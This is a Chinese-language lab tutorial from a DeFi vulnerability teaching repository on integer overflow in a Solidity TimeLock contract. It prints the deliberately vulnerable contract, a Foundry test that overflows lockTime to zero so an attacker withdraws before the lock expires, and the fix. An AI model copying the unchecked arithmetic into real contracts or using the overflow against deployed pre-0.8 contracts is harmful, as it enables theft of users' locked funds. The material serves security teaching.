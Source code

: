# 整数溢出

[Overflow.sol](https://github.com/SunWeb3Sec/DeFiVulnLabs/blob/main/src/test/Overflow.sol)  

**名称：** 整数溢出漏洞  
**描述：**  
TimeLock 合约在智能合约代码中存在一个漏洞，允许攻击者从 TimeLock 合约中提前提取其存款。  
这个漏洞是因为 increaseLockTime 函数中发生了溢出，该函数以一种导致锁定时间溢出为 0 的方式操控锁定时间，  
使得攻击者能够在实际等待期到期之前提取他们的资金    

**场景：**     
这个智能合约是为了充当时间保险库。  
用户可以将资金存入合约，但是至少要等1周才能取出。  
用户还可以在这1周锁仓时间的基础上延长锁仓时间。


1. Alice和Bob都有1个以太币的余额 
2. 部署TimeLock合约  
3. Alice和Bob都将1个以太币存入TimeLock，他们需要等待 1 周才能解锁以太币 
4. Bob在他的锁定时间上造成了溢出
5. Alice无法提取 1 个以太币，因为锁定时间尚未过期。
6. Bob 可以提取 1 个以太币，因为锁定时间溢出为 0

**发生什么了？**  
攻击导致TimeLock.lockTime产生溢出，这使得攻击者能够在1周的锁仓时间之前就取出资金。  

**影响范围**: Solidity < 0.8 且没有使用 SafeMath 

**解决方法：**  
为了解决溢出问题，可以使用SafeMath库或者使用版本高于0.8的Solidity  


**TimeLock 合约：**  
```solidity
contract TimeLock {
    mapping(address => uint) public balances;
    mapping(address => uint) public lockTime;

    function deposit() external payable {
        balances[msg.sender] += msg.value;
        lockTime[msg.sender] = block.timestamp + 1 weeks;
    }

    function increaseLockTime(uint _secondsToIncrease) public {
        lockTime[msg.sender] += _secondsToIncrease; // 漏洞
    }

    function withdraw() public {
        require(balances[msg.sender] > 0, "Insufficient funds");
        require(
            block.timestamp > lockTime[msg.sender],
            "Lock time not expired"
        );

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}
```
**如何测试：**  

`forge test --contracts src/test/Overflow.sol -vvvv`  

```solidity
// 这个testOverflow 函数, 用于测试溢出漏洞
    function testOverflow() public {
        // 记录Alice的余额
        console.log("Alice balance", alice.balance);
        // 记录Bob的余额
        console.log("Bob balance", bob.balance);

        // 记录“Alice开始存钱"
        console.log("Alice deposit 1 Ether...");
        // 设置Alice为deposit()的调用者
        vm.prank(alice);
        // Alice向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Alice的新余额
        console.log("Alice balance", alice.balance);

        // 记录"Bob开始存钱"
        console.log("Bob deposit 1 Ether...");
        // 设置Bob为msg.sender
        vm.startPrank(bob);
        // Bob向TimeLock合约存入1个以太币
        TimeLockContract.deposit{value: 1 ether}();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);

    
        //漏洞：增加锁仓时间，使其变量lockTime溢出并变为0。
        TimeLockContract.increaseLockTime(
            type(uint).max + 1 - TimeLockContract.lockTime(bob)
        );

        // 记录"Bob将成功取款，因为变量lockTime发生溢出"。
        console.log(
            "Bob will successfully withdraw, because the lock time is overflowed"
        );
        // Bob取款
        TimeLockContract.withdraw();
        // 记录Bob的新余额
        console.log("Bob balance", bob.balance);
        // 将msg.sender恢复为合约实际调用者
        vm.stopPrank();

        // 将alice设置为msg.sende
        vm.prank(alice);
        // 记录"Alice将无法取款，因为锁仓尚未到期"。
        console.log(
            "Alice will fail to withdraw, because the lock time did not expire"
        );
        //尝试取款Alice的资金。由于锁仓尚未到期，这应该会导致回滚。
        TimeLockContract.withdraw(); // 预期会回滚
    }
```
**红框：** TimeLock.lockTime发生溢出  
**紫框：** 溢出已修复
![image](https://web3sec.notion.site/image/https%3A%2F%2Fs3-us-west-2.amazonaws.com%2Fsecure.notion-static.com%2Fd444eaff-b1ef-4171-8890-76186c4de58a%2FUntitled.png?table=block&id=6ec73bdb-955c-42b4-a7c6-5bce2bf97805&spaceId=369b5001-5511-4fe6-a099-48af1d841f20&width=2000&userId=&cache=v2)